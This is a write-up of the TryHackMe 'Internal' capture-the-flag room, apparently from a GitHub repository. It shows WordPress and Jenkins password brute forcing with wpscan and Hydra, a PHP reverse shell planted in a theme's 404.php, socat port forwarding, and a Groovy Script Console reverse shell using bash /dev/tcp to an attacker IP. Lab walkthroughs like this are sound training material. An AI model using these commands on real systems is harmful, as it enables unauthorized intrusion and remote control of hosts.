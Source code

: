 #Internal

This is a write for the awesome penetration challenge ["Internal"](https://tryhackme.com/room/internal) created by 
[Joe Helle](https://www.linkedin.com/in/joe-helle-63b18893/) "TheMayor"

Have fun!! 


![alt_text](internal/internal.png "image_tooltip")

First we add `internal.thm` to the /etc/hosts file.

For our initial scan we run nmap.

![alt_text](internal/internal1.png "image_tooltip")

Port 22 (SSH) and port 80 (HTTP) are open and we confirm it's a Linux machine.

Next we start directory enumeration with gobuster

`gobuster dir -u http://internal.thm -w /usr/share/wordlists/dirb/common.txt`

![alt_text](internal/internal2.png "image_tooltip")

`blog` seems interesting! Let's check it in our browser.

![alt_text](internal/internal3.png "image_tooltip")

Just another (pretty looking) WordPress blog (^_^)

Looking around doesn't gives us any clues about any credentials, so let's try enumerating with `wpscan`

`wpscan --url http://internal.thm/blog -e u`

![alt_text](internal/internal4.png "image_tooltip")

Going through the scan, we can see that we were successful finding one user(name)!!

![alt_text](internal/internal5.png "image_tooltip")

Cool! We can try to bruteforce the password using wpscan as well.

`wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt`

Let the tool do its things and in the meantime you can go grab some coffee, because 
it's going to take some time o^_^o 

![alt_text](internal/internal6.png "image_tooltip")

AND ... we get a result!!!

![alt_text](internal/internal7.png "image_tooltip")

We use the credentials found and login `internal.thm/blog/wp-admin/`

After logging in we see this ...

![alt_text](internal/internal8.png "image_tooltip")

Just click on "email is correct" and BOOM! We're logged in as admin!!

![alt_text](internal/internal9.png "image_tooltip")

I see these WordPress dashboards, the first thing I want to do is looking for a place I can upload a php reverse shell,
and that's exactly what we'll do!!

Clicking on "Appearance", then "Theme Editor", then "404.php" and we have the perfect spot to put our shell!!

Substitute the php there for a reverse shell. There are many you can find online! I included one in this writeup's repository.
Make sure to change the IP for yours!!

Click on "update file", start a nc listener in your machine, then go to

`http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

![alt_text](internal/internal10.png "image_tooltip")

And we got a shell!! 

But it's www-data and not much we can do besides trying to find a way to escalate our privileges to some other kind of user.

It took me a while looking around until I finally came across something VERY useful right here ...


![alt_text](internal/internal11.png "image_tooltip")

We fully read this file and we have credentials to switch user.

And we get user.txt

![alt_text](internal/internal12.png "image_tooltip")


OK! Next we need to do some privesc to root this machine...
Unfortunately aubreanna is not a sudoer :((

Back to looking around for stuff we can use to escalate our privileges!!

Actually ... haha.. I was hoping to escalate by sudo, but then it wouldn't be a hard machine now, would it?
So I went hunting everywhere, going to crazy places ... only to find myself right back to /home/aubreanna, going through
this file which was RIGHT above user.txt...lol

![alt_text](internal/internal13.png "image_tooltip")

Jenkins service ...is it running over there only? Let's check!!

![alt_text](internal/internal14.png "image_tooltip")

Yup, running in localhost 127.0.0.1:8080

OK, so to see if we can use this to try and escalate privilege, we need it to be available to us, localhost does no good!
I had to go research this one, to be honest... TheMayor always making AMAZING challenges!!

So we can make this available to us through `socat` which means we have to put it in aubreanna's machine.
We can easily do that by using a python http.server + wget

![alt_text](internal/internal15.png "image_tooltip")

`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:80 &`

OK... but without credentials we can't authenticate!!

We can try to brute force that with Hydra! (POST request from Burp)

`hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`

![alt_text](internal/internal16.png "image_tooltip")

I went and took another coffee break and let Hydra do its thing!
(Make sure the TryHackMe machine doesn't expire!!)

After getting our hands on the Jenkins credentials, we can just go to `http://internal.thm:8888` and authenticate!!

We are going to put a reverse shell there as well, so again start a nc listener in our machine

![alt_text](internal/internal17.png "image_tooltip")

Go to "Jenkins", then "nodes", then "master", then "Script Console", then execute the following...

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.4.31.108/7878;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

Don't forget to change IP and port to match your nc listener.

I forgot to take a screenshot of this and my IP is looong expired, but all you need to do is do some digging, nothing too complicated, and you will find the root password by going to `/opt` , which is the last piece missing for owning the machine.

Go back to aubreanna's machine and simply switch users to root and use the password you found above!!


![alt_text](internal/internal18.png "image_tooltip")

and THAT'S IT!!!

![alt_text](internal/internal19.png "image_tooltip")

I hope you loved this penetration test challenge as much as I did and learned new things.

Make sure to follow Joe "TheMayor" Helle on 
[Twitter](https://twitter.com/joehelle)and [Twitch](https://www.twitch.tv/themayor11)
for AMAZING content!

Thank you so much for reading my writeup and Happy Hacking!!


                                                    `CryptoTzipi AKA CyberLola`
                                                    
                                                    

![alt_text](internal/internal00.png "image_tooltip")













